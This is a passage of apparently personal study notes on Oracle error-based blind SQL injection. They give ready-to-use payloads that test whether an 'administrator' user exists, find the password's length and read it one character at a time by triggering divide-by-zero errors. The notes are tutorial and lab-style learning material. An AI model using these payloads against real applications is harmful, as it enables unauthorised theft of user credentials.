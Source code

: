 rownum                ---> Assure it will only output 1 entry (similar to the LIMIT 1 in Equality Check)
TABLE                   ---> Table we are interested to test (If exist)


**Find Column Name ???**
```

```


Find a Variable in a Column
```
' || (select '' from TABLE where COLUMN='administrator') || '   ---> NOT GOOD

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator') || '                                    ---> (True = Error)

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='fwefwoeijfewow') || '                                   ---> (False = 200)
```

1st Query (NOT GOOD)           ---> This query does not work since a false or true response will always display a 200 response (And might not display a HTML code that allow us to verify)
		This then mean we need to use a query to will response a error code when the query is valid and a 200 response when the query is false

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
THEN TO_CHAR(1/0)                ---> Create an Invalid query (1/0 = Invalid)
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in

This mean that if the user is found, it will not return an error, and if it is not found it will prive an invalid statment

**Take also note that the query is been read from (FROM users -> to the right and after pass the CASE WHEN query part)**


Length of Variable (>,<,<=,>=)
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator' and LENGTH(password)>19) || '
```

200 response                              ---> False
500 response                              ---> True

Enumeration of variable
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,2,1)='a') || '
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)
